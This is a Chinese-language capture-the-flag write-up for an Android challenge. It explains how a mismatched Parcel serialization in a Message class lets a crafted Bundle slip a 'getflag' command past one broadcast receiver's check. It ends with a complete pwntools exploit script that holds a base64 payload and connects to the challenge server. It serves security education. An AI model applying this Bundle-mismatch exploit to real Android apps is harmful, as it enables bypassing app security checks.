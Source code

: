 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)
[attachment](./BroadcastTest.apk)

这道题是一道android pwn
主要的漏洞点是关于序列化与反序列化不匹配的漏洞
这道题主要是由CVE-2017-13311等启发而成

可以阅读https://xz.aliyun.com/t/2364这篇文章，里面详细的说明了类似漏洞的原理

在apk中，首先读取了Base64字符串，base64deocdeo之后将其作为一个Bundle放到广播中，发送给Receiver2
Receiver2接收到广播，取出Bundle，再从Bundle里面取出key为command的值，判断是否为getflag，不是的话就可以继续广播到Receiver3
Receiver3接收到广播，取出Bundle，判断command是否为getflag，是的话就输出Congratulation

正常途径是不能绕过这个判断的，但是在apk中存在一个com.de1ta.broadcasttest.MainActivity$Message类，里面的序列化和反序列化是不匹配的

在Receiver2中判断会command是否为flag会导致Bundle进行反序列化，之后发送给Receiver3的时候会进行序列化，最后Receiver3接收到Bundle后会进行最后一次反序列化

利用漏洞，可以在Receiver2中反序列化的时候获取不到key为command的string，在序列化之后就出现了key为command，值为getflag的string，然后Receiver3的check就能通过，最终获取到flag

下面是exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```
